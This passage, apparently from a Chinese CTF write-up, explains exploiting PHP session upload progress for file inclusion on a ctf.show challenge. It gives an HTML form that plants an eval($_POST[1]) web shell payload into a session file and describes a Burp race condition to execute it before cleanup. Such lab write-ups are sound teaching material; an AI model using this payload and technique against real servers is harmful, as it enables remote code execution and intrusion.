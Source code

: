 ![image-20221016211109621](https://ltfallpics.oss-cn-hangzhou.aliyuncs.com/images/202210162111506.png)

然后上传文件名为`png`的文件，包如下：

![image-20221016211145650](https://ltfallpics.oss-cn-hangzhou.aliyuncs.com/images/202210162111495.png)

文件名为`png`，文件内容是让它包含`sess_ltfall`这个文件，当然现在是包含不到东西的。

![image-20221016211240572](https://ltfallpics.oss-cn-hangzhou.aliyuncs.com/images/202210162112249.png)

此时，我们便需要让服务器替我们生成`sess_ltfall`这个文件，并让这个文件的内容包含恶意代码。

我们写`html`包如下：

```html
<!DOCTYPE html>
<html>
<body>
<form action="http://a0a2b919-d561-4000-8048-fee80110b7be.challenge.ctf.show/" method="POST" enctype="multipart/form-data">
    <input type="hidden" name="PHP_SESSION_UPLOAD_PROGRESS" value="<?php echo 123;eval($_POST[1]); ?>" />
    <input type="file" name="file" />
    <input type="submit" value="submit" />
</form>
</body>
</html>
```

也就是对这个`URL`进行`POST`，然后表单里面注意有一项是`PHP_SESSION_UPLOAD_PROGRESS`即可。它的值便是我们可控的恶意代码。由于这两项配置：

```php
session.upload_progress.prefix = "upload_progress_"
session.upload_progress.name = "PHP_SESSION_UPLOAD_PROGRESS"
```

所以`sess_ltfall`中将会包含这样一段恶意代码：

```php
upload_progress_<?php echo 123;eval($_POST[1]); ?>
```

我们在这个`HTML`中点击上传文件（任意上传一个文件都可以，这并不重要，因为重点是要上传文件触发这个机制），把这个包修改一下：

![image-20221016211739882](https://ltfallpics.oss-cn-hangzhou.aliyuncs.com/images/202210162117707.png)

其实只是加了一行`Cookie`，目的是让服务器生成`sess_ltfall`这个文件。

若`php.ini`中，`session.upload_progress.cleanup=Off`，则我们此时直接访问`upload/index.php`就已经利用成功了。

但这个配置默认为`On`，因此服务器会在上传结束后，删除`sess_ltfall`这个文件的内容（不会删除这个文件）。

因此，此时我们需要条件竞争，也就是一边一直发上面上传文件的数据包，一边一直带着恶意`payload`访问`upload/index.php`。我这里是用`Burp`实现的一直发这两个数据包。

然后，因为是多线程，所以总有一个时间点，在`sess_ltfall`文件内容还没有被删除的时候，就被我们访问到了。如图所示：

![image-20221016212352101](https://ltfallpics.oss-cn-hangzhou.aliyuncs.com/images/202210162123217.png)
